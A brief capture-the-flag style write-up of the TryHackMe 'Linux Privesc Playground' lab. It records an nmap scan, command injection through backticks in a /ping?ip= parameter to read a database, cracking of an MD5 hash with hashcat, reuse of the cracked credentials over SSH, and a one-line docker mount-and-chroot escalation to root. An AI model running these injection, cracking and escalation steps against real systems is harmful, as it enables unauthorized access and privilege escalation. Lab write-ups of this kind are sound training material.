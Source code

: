 # Matheus Jesus 11-04-2020

## Try Hack Me - [Linux Privesc Playground](https://tryhackme.com/room/privescplayground)

### IP 10.10.173.59

#### NMAP

nmap -sC -sV -oN nmap_initial 10.10.173.59

checkout all ports
nmap -sC -sV -p-65535 -oN nmap_initial 10.10.173.59

#### 8081 Node.js server

There is an /auth route with params user and password

Found a /ping?ip={IP} route
EXPLOITABLE WITH COMMAND INJECTIO

/ping?ip=`ls` responds ping: utech.db.sqlite: Name or service not known 

by executing ping?ip=`cat utech.db.sqlite`
f357a0c52799563c7c7b76c1e7543a32

hashcat -m 0 -a 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt --force

Mr00t:n100906
f357a0c52799563c7c7b76c1e7543a32:n100906

Madmin:mrsheafy
0d0ea5111e3c1def594c1684e3b9be84:mrsheafy

#### 31331 Apache server

There is a /partners.html route to login through auth api on 8081

#### SSH

access machine with ssh r00t@10.10.173.59 : n100906

#### Privilege escalation

Enumeration
scp /opt/linPEAR/linpeas.sh r00t@10.10.173.59:/dev/shm
scp /opt/linEnum/linEnum.sh r00t@10.10.173.59:/dev/shm

Docker privilege escalation

docker run -v /:/mnt --rm -it bash chroot /mnt sh
